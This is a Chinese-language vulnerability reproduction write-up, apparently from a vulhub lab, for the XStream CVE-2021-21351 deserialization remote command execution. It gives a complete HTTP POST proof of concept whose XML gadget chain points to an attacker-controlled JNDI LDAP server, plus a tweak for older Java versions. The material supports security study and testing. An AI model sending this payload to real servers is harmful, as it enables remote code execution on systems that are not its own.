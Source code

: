 # XStream 反序列化命令执行漏洞（CVE-2021-21351）

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.15 及之前版本黑名单存在缺陷，攻击者可利用`javax.naming.ldap.Rdn$RdnEntry`及`javax.sql.rowset.BaseRowSet`构造JNDI注入，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## 漏洞环境

执行如下命令启动一个Springboot + XStream 1.4.15的环境：

```
docker compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：

![](1.png)

## 漏洞复现

由于目标环境Java版本高于8u191，故我们需要借助[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)中给出的方法，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

我们使用 [Java Chains](https://github.com/vulhub/java-chains) 工具来进行漏洞复现，参考 [快速入手](https://java-chains.vulhub.org/zh/docs/guide) 来启动 Java Chains

之后根据下图所示，选择设置要执行的命令为 `touch /tmp/success`，生成 JNDI LDAP URL Payload：

![](2.png)

将以上 LDAP URL 作为`<dataSource>`的值，构造POC如下：

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3181

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>ldap://java-chains-ip:50389/x</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

然后，进入目标容器内，可见`touch /tmp/success`已成功执行：

![](3.png)

在实战中，如果目标Java版本较低，POC需要做修改，将其中的`<__overrideDefaultParser>false</__overrideDefaultParser>`改成`<__useServicesMechanism>false</__useServicesMechanism>`即可。
